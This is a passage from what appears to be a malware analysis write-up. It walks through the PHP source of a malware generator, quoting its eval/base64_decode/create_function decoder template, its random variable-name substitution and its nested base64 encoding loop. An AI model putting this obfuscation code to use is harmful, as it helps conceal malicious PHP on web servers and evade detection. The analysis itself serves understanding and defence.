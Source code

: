 		$v3 = F1($mas3,$code3);
		$v4 = $v2(\'$v5\',$v1.\'(\'.$v3.\'($v5));\');
		$v4($v0);
	}';

As most of you easily will see, this isn't anything else than the decoding function that we found in the original malware, with the three function names (eval, base64_decode and create_function in our case) defined in the *$v1-3* variables, etcetera. We're starting to feel quite confident about this being the actual code that generates the whole malware.

As expected, then the function generates all the random variables and replaces those easy to read *$vX* variables with big strings spawned from hell.

	$f1 = pass_gen(false);
	$coo = str_replace('F1',$f1,$coo);
	$v1 = pass_gen(true);
	$coo = str_replace('$v1',$v1,$coo);
	$v2 = pass_gen(true);
	$coo = str_replace('$v2',$v2,$coo);
	$v3 = pass_gen(true);
	$coo = str_replace('$v3',$v3,$coo);
	$v4 = pass_gen(true);
	$coo = str_replace('$v4',$v4,$coo);
	$v5 = pass_gen(true);
	$coo = str_replace('$v5',$v5,$coo);
	$v6 = pass_gen(true);
	$coo = str_replace('$v6',$v6,$coo);
	$v7 = pass_gen(true);
	$coo = str_replace('$v7',$v7,$coo);
	$v8 = pass_gen(true);
	$coo = str_replace('$v8',$v8,$coo);
	$v9 = pass_gen(true);
	$coo = str_replace('$v9',$v9,$coo);
	$v0 = pass_gen(true);
	$coo = str_replace('$v0',$v0,$coo);
	$mas1 = pass_gen(true);
	$coo = str_replace('$mas1',$mas1,$coo);
	$mas2 = pass_gen(true);
	$coo = str_replace('$mas2',$mas2,$coo);
	$mas3 = pass_gen(true);
	$coo = str_replace('$mas3',$mas3,$coo);
	$code1 = rand(1000,10000);
	$coo = str_replace('$code1',$code1,$coo);
	$code2 = rand(1000,10000);
	$coo = str_replace('$code2',$code2,$coo);
	$code3 = rand(1000,10000);
	$coo = str_replace('$code3',$code3,$coo);

It also base64-encodes the *$code* and puts it into the decoder generator with another funny variable name. This will become the *$huge_string* we found. Codee function ends here.

	for($i=0; $i<3; $i++){
        $code = base64_encode($code);
        $code = 'eval(base64_decode("' .$code.'")); ';
	}
	$code = base64_encode($code);

